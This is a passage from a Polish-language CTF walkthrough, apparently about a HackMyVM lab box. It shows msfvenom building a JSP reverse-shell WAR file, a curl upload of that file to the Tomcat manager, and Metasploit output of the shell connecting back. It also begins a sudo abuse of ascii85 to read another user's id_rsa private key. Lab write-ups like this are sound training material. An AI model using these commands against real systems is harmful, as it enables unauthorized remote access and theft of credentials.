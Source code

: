 A jeżeli to działa, to powinno też działać wrzucanie aplikacji poprzez np **Curla**
{: .text-justify}

```bash
# msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.10 LPORT=4444 -f war -o revshell.war
# curl --upload-file revshell.war -u 'login:pass' "http://172.16.1.214:8080/manager/text/deploy?path=/revshell"
```
Żeby to wszystko zadziałało, należy uruchomić nasz program _.war_, wchodząc na stronę _http://172.16.1.214:8080/revshell/_. 
{: .text-justify}
{: .notice--danger}

W **Metasploicie** zaś stwórzmy "payload" i nasłuchujmy czy jest połączenie:
{: .text-justify}

```console
msf6 > use multi/handler
[*] Using configured payload linux/x86/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set payload java/jsp_shell_reverse_tcp
payload => java/jsp_shell_reverse_tcp
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 17.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 172.16.1.10:4444
msf6 exploit(multi/handler) >
msf6 exploit(multi/handler) > sessions
  17  Exploit: multi/handler  java/jsp_shell_reverse_tcp  tcp://172.16.1.10:4444

msf6 exploit(multi/handler) > set [*] Command shell session 17 opened (172.16.1.10:4444 -> 172.16.1.214:59198) at 2021-10-15 23:12:14 +0200

msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type              Information  Connection
  --  ----  ----              -----------  ----------
  17        shell java/linux               172.16.1.10:4444 -> 172.16.1.214:59198 (172.16.1.214)
```

## 05. Shell i z górki

Sprawdzając **Sudo** widzimy, że _nathan_ może uruchomić _/usr/bin/ascii85_. **Ascii85** jest to program napisany w **Ruby**, który konwertuje na i z formatu **Ascii85**. Ale jak przejść dalej? Trochę siedziałem przy tym, ale nakierował mnie [Nullvector](https://hackmyvm.eu/profile/?user=nullvector).
{: .text-justify}
```bash
# tomcat@tom:/$ sudo -l
sudo -l
Matching Defaults entries for tomcat on tom:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tomcat may run the following commands on tom:
    (nathan) NOPASSWD: /usr/bin/ascii85
```
Prosta sprawa i dosyć popularna w tych podatnych maszynach, aż dziwię się, że mogłem zapomnieć. Mając uprawnienia **Nathan**a, możemy skopiować jego prywatny klucz _id_rsa_. Oczywiście **Ascii85** nam to zakoduje, ale przez podaną wcześniej stronę możemy to ładnie rozkodować:
{: .text-justify}